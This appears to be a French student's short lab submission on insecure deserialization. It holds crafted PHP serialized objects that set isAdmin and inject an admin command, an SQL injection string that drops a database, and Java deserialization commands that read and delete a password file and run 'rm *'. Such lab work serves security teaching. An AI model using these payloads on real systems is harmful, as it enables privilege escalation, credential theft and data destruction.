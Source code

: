 1) O:4:"User":4:{s:8:"Esteban";s:4:"Restoy";s:3:"mdp";s:4:"passssss";s:7:"isAdmin";b:1;s
:16:"adminAutoCommand";s:0:"";}

2)O:4:"User":4:{s:8:"Esteban";s:4:"Restoy";s:3:"mdp";s:4:"passssss";s:7:"isAdmin";b:1;s:16:"adminAut
oCommand";s:14:"echo je t'ai hack !’;";}

3)

"Esteban';DROP DATABASE DB_insecure_deserialization; --"

Exercice 2 :

je l'ai fais mais je suis en txt je peux pas le prouver :/

mais en gros j'ai fais cette commande javac JavaDeserial.java && java JavaDeserial

addCommands("head password.txt", "rm password.txt", "ls");

2) on voit bien le mot de passe !! (je suis choqué, c'est pas safe votre histoire :/)

3) j'ai fais un rm * et ca a tout supprimé :/
